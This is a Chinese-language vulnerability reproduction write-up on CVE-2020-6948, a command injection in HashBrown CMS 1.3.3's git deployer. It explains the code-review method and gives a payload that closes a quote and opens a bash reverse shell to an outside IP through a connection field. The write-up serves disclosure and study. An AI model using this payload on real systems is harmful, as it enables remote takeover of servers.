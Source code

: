 # （CVE-2020-6948）HashBrown CMS 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Hashbrown CMS/CVE-2020-6948.html](http://book.iwonder.run/0day/Hashbrown CMS/CVE-2020-6948.html)

## 一、漏洞简介

HashBrown CMS 是一套开源的无头内容管理系统（CMS）。 HashBrown CMS 1.3.3 及之前版本中存在远程代码执行漏洞，该漏洞源于程序没有进行正确的安全检查。攻击者可利用该漏洞执行代码。

## 二、漏洞影响

HashBrown CMS 1.3.3

## 三、复现过程

在之前收集的资料里面总结了发现漏洞基本有三个方法：

*   通过关键字搜索，比如 exec 方法在很多语言里面代表执行系统命令，那你就可以搜索查看传入 exec 方法的参数有没有经过过滤，有没有办法利用。[https://github.com/wireghoul/graudit](https://github.com/wireghoul/graudit) 这个项目就罗列了很多语言的关键词可以用作参考。
*   根据 function 来阅读代码，但是这种方法花费的时间比第一种多，有可能迷失在各种各种各样的方法中。
*   通读代码，这样最全，但是显然速度要慢很多了。

对于 Hashbrown CMS，先用第一种方法开路。尝试了几个关键字之后我选取了 exec 这个关键字。在 grep 之后发现了下面的结果。

![image](img/968be4f46392dc17e088c82eb876adc9.png)

看来这个应用使用 git 相关命令，如果可以传入 url 参数就有可能触发命令执行漏洞。接着打开 Server/Entity/Deployer/GitDeployer.js 文件查看源代码。

![image](img/b3c3b167e806bf4a8aae8040b7f52901.png)

其中可以看到 url 由 username，password，和 repro 几个变量拼接，而且其中没有过滤特殊的字符和命令。那接下来就是到页面里面寻找触发的点。经过对这个应用的一番熟悉，得知可以在登录后建立新的 connection 选择 git 部署的方式，在 Repository，Branch，username 或者 password 字段填写你要执行的命令即可。但是这里要注意程序本来的 exec 命令中填写有单引号，我们要对其进行闭合，比如填入如下命令来反弹一个 shell。

```
https://google.com' & /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.149/8888 0>&1 
```

配置如下：

![image](img/7f9b04548d706a9a0bd0ac4680272819.png)

然后点击 media 菜单触发 git 命令执行

![image](img/a05d034cc8102af5d396109f394391a4.png)

接下来在监听的机器上就可以获得 shell 了

![image](img/62e82e8b8492e2894f87a4e0c7a587b3.png)

## 参考链接

> [https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j](https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j)

